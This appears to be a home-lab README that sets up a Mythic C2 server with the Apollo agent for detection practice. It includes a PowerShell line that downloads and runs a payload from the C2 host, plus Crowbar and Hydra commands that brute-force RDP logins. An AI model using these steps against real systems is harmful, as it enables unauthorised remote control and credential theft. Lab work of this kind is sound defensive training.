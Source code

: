 <h1>Mythic C2 Deployment with Payload and Brute Force Testing</h1>

<nav>
  <h3>📚 Table of Contents</h3>
  <ul>
    <li><a href="#demo">Deploy Mythic Server</a></li>
    <li><a href="#setup">Install and Configure Mythic</a></li>
    <li><a href="#secure">Secure the Server (Firewall)</a></li>
    <li><a href="#access">Access Mythic Web GUI</a></li>
    <li><a href="#post-setup">Post-Setup: Install Apollo & HTTP C2</a></li>
    <li><a href="#payload">Payload Hosting & Execution</a></li>
    <li><a href="#brute-force">Crowbar & Hydra for RDP Brute Force</a></li>
    <li><a href="#conclusion">Conclusion</a></li>
  </ul>
</nav>

<h2 id="demo">💻 Deploy Mythic Server</h2>
<ul>
  <li>Deploy a Vultr instance:
    <ul>
      <li>OS: <code>Ubuntu 22.04</code></li>
      <li>RAM: <code>4GB</code></li>
      <li>Region: <code>Toronto</code></li>
    </ul>
  </li>
  <li>Download Kali Linux (VMware image)</li>
  <li>SSH into server:
    <pre><code>ssh root@&lt;server-ip&gt;</code></pre>
  </li>
</ul>

<h2 id="setup">⚙️ Install and Configure Mythic</h2>
<ol>
  <li>Update system:
    <pre><code>
apt-get update
apt-get upgrade -y
    </code></pre>
  </li>
  <li>Install Docker (clean and reinstall from official repo):
    <pre><code>
apt-get remove docker docker-engine docker.io containerd runc -y
apt-get install ca-certificates curl gnupg lsb-release -y
mkdir -p /etc/apt/keyrings
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | gpg --dearmor -o /etc/apt/keyrings/docker.gpg
echo "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.gpg] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" | tee /etc/apt/sources.list.d/docker.list > /dev/null
apt-get update
apt-get install docker-ce docker-ce-cli containerd.io docker-buildx-plugin docker-compose-plugin -y
    </code></pre>
  </li>
  <li>Install Make:
    <pre><code>apt install make -y</code></pre>
  </li>
  <li>Clone and install Mythic:
    <pre><code>
git clone https://github.com/its-a-feature/Mythic.git
cd Mythic
./install_docker_ubuntu.sh
    </code></pre>
  </li>
  <li>Start Docker:
    <pre><code>
systemctl restart docker
systemctl enable docker
systemctl status docker
    </code></pre>
  </li>
  <li>Start Mythic:
    <pre><code>
make
mythic-cli start
    </code></pre>
  </li>
</ol>

<h2 id="secure">🔒 Secure the Server (Firewall)</h2>
<ul>
  <li>Create a Vultr firewall group</li>
  <li>Allow TCP ports <code>1–65535</code> for:
    <ul>
      <li>Your IP</li>
      <li>Kali Linux IP</li>
      <li>Windows Server IP</li>
    </ul>
  </li>
  <li>Assign firewall to the Mythic server</li>
</ul>

<h2 id="access">🌐 Access Mythic Web GUI</h2>
<ul>
  <li>Open:
    <pre><code>https://&lt;server-ip&gt;:7443</code></pre>
  </li>
  <li>If HTTPS warning, manually prepend <code>https://</code></li>
  <li>Get credentials:
    <pre><code>
ls -la
cat .env
    </code></pre>
  </li>
  <li>Login with <code>mythic_admin</code> and password from `.env`</li>
  <li>🌓 Toggle dark mode using the sun/moon icon</li>
</ul>

<h2 id="post-setup">🛠 Post-Setup: Install Apollo & HTTP C2</h2>
<ul>
  <li>Install Apollo Agent:
    <pre><code>
cd ~/Mythic
mythic-cli install github https://github.com/MythicAgents/apollo
    </code></pre>
  </li>
  <li>Install HTTP C2 profile:
    <pre><code>
mythic-cli install github https://github.com/MythicC2Profiles/http
    </code></pre>
  </li>
  <li>Restart Mythic:
    <pre><code>
mythic-cli stop
mythic-cli start
    </code></pre>
  </li>
</ul>

<h2 id="payload">📦 Payload Hosting & Execution</h2>
<ol>
  <li>In Mythic GUI → Payloads → Actions → Generate New Payload</li>
  <li>Select:
    <ul>
      <li>Platform: Windows</li>
      <li>Agent: Apollo</li>
      <li>C2: HTTP</li>
      <li>Output: EXE</li>
      <li>Callback Host: Public IP</li>
      <li>Port: 80</li>
    </ul>
  </li>
  <li>Host via Python:
    <pre><code>python3 -m http.server 9999</code></pre>
  </li>
  <li>On Windows (PowerShell):
    <pre><code>
Invoke-WebRequest -Uri http://&lt;mythic-ip&gt;:9999/&lt;payload.exe&gt; -OutFile C:\Users\Public\Downloads\payload.exe
Start-Process "C:\Users\Public\Downloads\payload.exe"
    </code></pre>
  </li>
  <li>Check Mythic for Callback → Interact → Run Commands</li>
</ol>

<h2 id="brute-force">🔨 Brute Force Testing: Crowbar & Hydra</h2>

<h3>Option 1: Crowbar</h3>
<pre><code>
sudo apt-get install crowbar -y
crowbar -b rdp -u administrator -C mydfir-wordlist.txt -s &lt;target-ip&gt;/32
</code></pre>

<h3>Option 2: Hydra (if Crowbar fails)</h3>
<pre><code>
sudo apt install hydra -y
hydra -l administrator -P mydfir-wordlist.txt rdp://&lt;target-ip&gt;
</code></pre>

<h2 id="conclusion">🤔 Conclusion</h2>
<ul>
  <li>Successfully deployed and accessed Mythic C2 with Apollo agent and HTTP profile</li>
  <li>Executed payload, confirmed callbacks, and tested brute-force detection via Crowbar and Hydra</li>
</ul>

<p>🔗 <a href="https://github.com/MythicAgents/Apollo" target="_blank">Mythic Apollo Commands Reference</a></p>
